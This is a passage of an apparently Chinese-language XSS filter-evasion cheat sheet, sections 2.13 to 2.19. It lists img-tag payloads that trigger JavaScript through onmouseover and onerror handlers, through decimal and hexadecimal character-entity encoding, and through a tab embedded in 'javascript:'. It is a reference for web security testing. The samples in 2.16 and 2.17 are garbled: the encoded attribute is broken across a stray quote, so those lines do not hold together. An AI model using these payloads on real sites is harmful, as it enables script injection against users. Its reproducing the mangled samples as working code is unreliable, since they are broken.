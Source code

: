 通过 css 设置 IMG 大小达到可 mouseover 的情况，方有效。

``` {.html}
<img onmouseover="alert('xxs')" />
```

### 2.14. 通过 error 事件触发 alert（有效）

``` {.html}
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></IMG>
```

### 2.15. 使用 IMG 标签中 onerror 属性并对 alert 进行编码（有效）

``` {.html}
<IMG SRC=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### 2.16. 十进制 HTML 字符实体编码

所有在 IMG 标签里直接使用`javascript:`形式的 XSS 示例无法在 Firefox 或
Netscape 8.1 以上浏览器（使用 Gecko 渲染引擎）运行。

``` {.html}
<img
    src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;"
    &#39;&#88;&#83;&#83;&#39;&#41;
/>
```

### 2.17. 不带分号的十进制 HTML 字符实体编码

``` {.html}
<IMG
  SRC="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&"
  #0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041
/>
```

### 2.18. 不带分号的十六进制 HTML 字符实体编码

``` {.html}
<IMG
  SRC="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29"
/>
```

### 2.19. 内嵌 TAB

``` {.html}
<img src="jav   ascript:alert('XSS');" />
```
